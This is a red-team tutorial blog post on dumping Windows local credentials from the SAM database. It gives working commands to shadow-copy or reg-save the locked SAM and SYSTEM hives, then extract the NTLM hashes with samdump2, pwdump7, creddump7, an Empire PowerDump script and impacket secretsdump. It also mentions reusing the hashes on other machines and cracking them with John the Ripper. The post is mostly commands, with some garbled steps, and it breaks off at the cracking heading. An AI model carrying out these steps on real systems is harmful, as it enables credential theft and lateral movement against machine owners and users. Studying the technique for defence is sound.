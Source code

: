 ```yaml
---
title:  "Windows Credentials part-1 SAM Database"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Windows Credentials-SAM Database part-1"
categories:
  - Red-Teaming
toc: true
---
```


## Introduction to SAM 
Local Windows credentials are stored in the Security Account Manager (SAM) database as password hashes using the NTLM hashing format, which is based on the MD4 algorithm.

We can reuse acquired NTLM hashes to authenticate to a different machine, as long as the hash is tied to a user account and password registered on that machine

It is the responsibility of LSA (Local Security Authority) to verify user login by matching the passwords with the database maintained in SAM.

SAM starts running in the background as soon as the Windows boots up.

located at C:\Windows\System32\config\SAM
but the SYSTEM process has an exclusive lock on it, preventing us from reading or copying it even from an administrative command prompt

 Failure to copy the SAM database
```
copy c:\Windows\System32\config\sam C:\Users\nored0x\Downloads\sam
```
<img src="/img/cred1/1.PNG" alt="Getting-gz" width="800" height="200"> 
 
There are two potential workarounds. 
 * First, we could use the Volume Shadow Copy Server, which can create a snapshot (or “shadow volume”) of the local hard drive with vssadmin,
 * The second approach, which will work on our Windows 10 machine, is to execute this option through WMIC launched from an administrative command prompt.
Specifically, we’ll launch wmic, specify the shadowcopy class, create a new shadow volume and specify the source drive with “Volume=‘C:\’”. This will create a snapshot of the C drive.
 
 
Creating a shadow volume
```
 wmic shadowcopy call create Volume='C:\'
 ```
 <img src="/img/cred1/2.PNG" alt="Getting-gz" width="800" height="200"> 

To verify this
 ```
- Listing shadow volumes
 ```
  <img src="/img/cred1/3.PNG" alt="Getting-gz" width="800" height="200"> 



Shadow copying the SAM database
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\sam C:\users\nored0x\Downloads\sam
```

 <img src="/img/cred1/4.PNG" alt="Getting-gz" width="800" height="200"> 


The encryption keys are stored in the SYSTEM file, which is in the same folder as the SAM database. However, it is also locked by the SYSTEM account

Shadow copying the SYSTEM file

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\system C:\users\nored0x\Downloads\system
```

<img src="/img/cred1/5.PNG" alt="Getting-gz" width="800" height="200"> 


```
reg save HKLM\sam C:\users\nored0x\Downloads\sam
```
<img src="/img/cred1/6.PNG" alt="Getting-gz" width="800" height="200"> 
```
reg save HKLM\system C:\users\nored0x\Desktop\system
```
<img src="/img/cred1/7.PNG" alt="Getting-gz" width="800" height="200"> 


## samdump2
```
samdump2 SYSTEM SAM 
```

<img src="/img/cred1/t1.PNG" alt="Getting-gz" width="800" height="200"> 

## pwdump7
 This tool extracts the SAM file from the system and dumps its credentials

download :https://www.tarasco.org/security/pwdump_7/pwdump7.zip

<img src="/img/cred1/t1.PNG" alt="Getting-gz" width="800" height="200"> 


```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
```
## creddump7
```
sudo apt install python-crypto
sudo git clone https://github.com/Neohapsis/creddump7
python pwdump.py /home/kali/system /home/kali/sam
```
    
    
## impacket
```
impacket-secretsdump -system SYSTEM -sam SAM local
```

## Decrypting Hash
John The Ripper
